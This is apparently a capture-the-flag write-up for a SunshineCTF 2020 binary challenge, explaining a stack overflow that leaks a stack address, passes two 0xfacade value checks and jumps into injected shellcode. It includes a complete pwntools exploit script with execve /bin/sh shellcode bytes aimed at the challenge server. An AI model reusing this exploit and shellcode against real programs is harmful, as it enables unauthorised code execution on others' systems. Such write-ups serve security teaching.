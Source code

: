`fgets` will get enough bytes to overwrite the return address, but not enough to put a payload after that, so we'll have to navigate the `local_44` and `local_c` constraints and fit in our shellcode.  Neat!

Before that we'll have to score a stack leak from the `printf` statement.

The attack is fairly straightforward.

1. Write out `0x4e - 0x44` bytes of garbage to get to `local_44` (`fgets` is writing to `local_4e`).
2. Then write out `0xfacade` as a 32-bit (`undefined4`) value.
3. Align the stack.  We need to make sure that the leaked stack address + our current payload ends in `0` or `8` or our shellcode will most certainly fail.  Pad it out.
4. Add the size of the payload to the stack address at this point.
5. Insert shellcode here.
5. Pad out to `0xc` (`0x4e - len(payload) - 0xc`).
6. Then write out `0xfacade` as a 32-bit (`undefined4`) value.
7. Pad out to return address.
8. Write stack address as return (as 64-bit).


### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_15')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30015)

p.sendline()
p.recvuntil('There\'s a place where nothing seems: ')
_ = p.recvline().strip()
stack = int(_,16)
log.info('stack: ' + hex(stack))

# http://shell-storm.org/shellcode/files/shellcode-905.php
shellcode  = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52'
shellcode += b'\x48\xbf\x2f\x62\x69\x6e\x2f\x2f'
shellcode += b'\x73\x68\x57\x54\x5e\x49\x89\xd0'
shellcode += b'\x49\x89\xd2\x0f\x05'

payload  = b''
payload += (0x4e - 0x44) * b'A'
payload += p32(0xfacade)
payload += (0x10 - (stack + len(payload)) & 0xf) * b'B'

stack += len(payload)
log.info('stack: ' + hex(stack))

payload += shellcode
payload += (0x4e - len(payload) - 0xc) * b'C'
payload += p32(0xfacade)
payload += (0x4e - len(payload)) * b'D'
payload += p64(stack)

p.sendline(payload)
p.interactive()
```
